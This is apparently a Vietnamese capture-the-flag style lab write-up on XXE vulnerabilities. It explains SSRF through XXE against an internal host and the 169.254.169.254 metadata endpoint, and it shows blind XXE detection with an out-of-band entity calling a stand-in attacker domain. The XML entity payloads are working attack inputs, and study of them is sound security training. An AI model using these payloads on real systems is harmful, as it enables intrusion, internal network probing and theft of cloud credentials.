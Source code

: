 ![image](https://hackmd.io/_uploads/BkSvk6SPeg.png)

Nó ko có biện pháp bảo vệ, nên mình chỉnh sửa như sau: 

![image](https://hackmd.io/_uploads/HktggarPex.png)

### Khai thác XXE để thực hiện tấn công SSRF 

Ngoài đánh cắp dữ liệu nhạy cảm, tác động chính của XXE là SSRF. 

Để khai thác một lổng hổng XXE nhằm thực hiện tấn công SSRF, cần: 
- Khai báo một thực thể external trong phần `DOCTYPE`, trong đó chứa URL. 
- Sử dụng thực thể đó trong phần dữ liệu XML, giống cách khai thác đọc file. 
- Nếu giá trị entity được phản hồi lại bởi ứng dụng, sau đó xem phản hồi trong HTTP.
- Nếu không có phản hồi, thì mình vẫn có thể thực hiện blind SSRF. 

```XML 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

### LAB02 

Lab này sử dụng XML trong phần check stock. 

![image](https://hackmd.io/_uploads/r1oPBTrvxg.png)

Để thực hiện tấn công SSRF thì truyền vào như sau: 

![image](https://hackmd.io/_uploads/Hy9-PaSwgl.png)

Thì nó hiển thị `latest` cho nên mình phải thêm phía sau URL thành `http://169.254.169.254/latest`

![image](https://hackmd.io/_uploads/Skl8P6HDlx.png)

Tiếp tục, khai thác như vậy. 

![image](https://hackmd.io/_uploads/rJ1rO6rvgx.png)

### Lỗ hỗng Blind XXE 

Blind XXE là lỗ hổng XXE mà ứng dụng không trả lại nội dung thực thể bên ngoài, nên không thể đọc trực tiếp từ server. 

Có hai cách chính: 
- Out-of-band (OAST): Gửi thực thể trỏ đến server của attacker để xác nhận lỗ hổng và có thể rò rỉ dữ liệu qua URL. 
- Gây lỗi XML parser: Cố tình làm parser lỗi để nhận được thông báo lỗi chứa thông tin nhạy cảm như đường dẫn file hoặc nội dung nội bộ. 

### Detect blind XXE dùng kỹ thuật OAST 

Sử dụng kỹ thuật sau: 

```XML 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
``` 
Bằng cách chèn thực thể đã định nghĩa vào một trường dữ liệu trong XML, attacker có thể buộc server gửi request ngầm đến URL chỉ định. Nếu attacker nhận được DNS/HTTP request từ server, thì chứng tỏ XXE hoạt động thành công, giúp phát hiện lỗ hổng dù không thấy phản hồi dũ liệu rõ ràng. 
